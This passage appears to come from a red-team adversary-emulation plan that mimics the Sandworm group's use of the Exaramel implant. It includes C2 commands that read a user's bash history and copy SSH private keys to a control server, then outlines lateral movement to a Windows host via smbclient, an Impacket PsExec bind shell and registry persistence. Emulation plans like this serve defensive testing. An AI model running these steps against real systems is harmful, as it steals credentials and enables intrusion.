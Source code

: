 Get bash history.

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Bash History

./evalsC2client.py --set-task exaramel-implant "exec cat /home/hoangtn8/.bash_history"
```

[Source Code](../../Resources/Exaramel/worker/worker.go#L156)

Download SSH keys from caladan to control server (HTTPS to 10.10.0.120:8443)

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Private Keys

./evalsC2client.py --set-task exaramel-implant "get /home/hoangtn8/.ssh/id_rsa caladan_id_rsa"
```

```bash
./evalsC2client.py --set-task exaramel-implant "get /home/hoangtn8/.ssh/id_rsa.pub caladan_id_rsa.pub"
```

[Source Code](../../Resources/Exaramel/worker/worker.go#L100)

Confirm SSH keys are present on attack platform:

```bash
ls -lsah files/
```

### :microscope: Cited Intelligence

* https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/

* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf

<br>

## Step 15 - Move laterally to Windows host

:microphone: `voice track`

During this step, Sandworm uses credentials gained from step4 to move laterally to gammu/10.0.1.7 as local admin user fherbert.

The way this works is Sandworm first uploads an Exaramel dropper to disk using smbclient with valid credentials. 

The Exaramel dropper is uploaded to `C:\\Windows\\wsmprovav.exe`.

Sandworm then establishes a bind shell to gammu using PsExec.py from the Impacket framework.

From the bind shell, Sandworm establishes registry persistance as user fherbert.

Sandworm then disconnects from the bindshell.

Notionally, the legitimate fherbert user logs in via RDP.
